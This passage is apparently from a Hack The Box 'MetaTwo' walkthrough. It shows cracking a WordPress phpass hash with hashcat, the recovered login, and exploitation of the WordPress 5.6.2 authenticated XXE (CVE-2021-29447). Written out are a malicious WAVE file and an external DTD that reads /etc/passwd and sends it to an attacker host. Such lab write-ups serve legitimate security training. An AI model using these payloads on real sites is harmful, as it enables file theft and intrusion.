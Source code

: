 	Most Likely
	Wordpress ≥ v2.6.2, HC: 400 JtR: phpass
	Joomla ≥ v2.5.18, HC: 400 JtR: phpass
	PHPass' Portable Hash, HC: 400 JtR: phpass
	
	
	$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
	
	Most Likely
	Wordpress ≥ v2.6.2, HC: 400 JtR: phpass
	Joomla ≥ v2.5.18, HC: 400 JtR: phpass
	PHPass' Portable Hash, HC: 400 JtR: phpass
	```
	> Hashing Algorithm
	> - `phpass` 
	{: .prompt-info}
6. Crack hash w/ `hashcat`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# hashcat -a 0 -m 400 hash /usr/share/wordlists/rockyou.txt --show
	$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
	```
	> Valid Credential
	> - `manager:partylikearockstar`
	{: .prompt-info}
7. Login w/ `manager:partylikearockstar`

## TCP/80 (HTTP) - WP Core 5.6.2 Authenticated XXE
1. Since we have a set of valid credential, let's try to exploit the Authenticated XXE Vulnerability found earlier.
2. Search exploits for `Wordpress 5.6.2 Authenticated XXE`
	>[POC of WP Core 5.6.2 Authenticated XXE (CVE-2021-29447)](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)
	{: .prompt-info}
3. How does  `Wordpress 5.6.2 Authenticated XXE` work?
	> WordPress uses ID3 library to parse information about an audio file uploaded in the Media Library that was vulnerable to XXE due to a XML parsing issue, allowing authenticated user to do to remote arbitrary file disclosure.
	{: .prompt-info}
4. Try [POC of WP Core 5.6.2 Authenticated XXE (CVE-2021-29447)](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)
	1. Create malicious `WAVE` file
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.13:4444/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
		
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# cat payload.wav
		RIFFWAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.10.14.13:4444/evil.dtd'>%remote;%init;%trick;]>┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		```
		> Why do we need `WAVE` file.
		> - This file contains the reference to the malicious dtd file, we must do so because this is a blind XXE vulnerability, meaning the parsed XML data will not be reflected/sent back to user, we are gonna need a blind XXE payload. We can do so by using an external dtd file.
		{: .prompt-info}
	2. Create `dtd` file
		```xml
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# cat evil.dtd
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
		<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.13:4444/?p=%file;'>" >
		```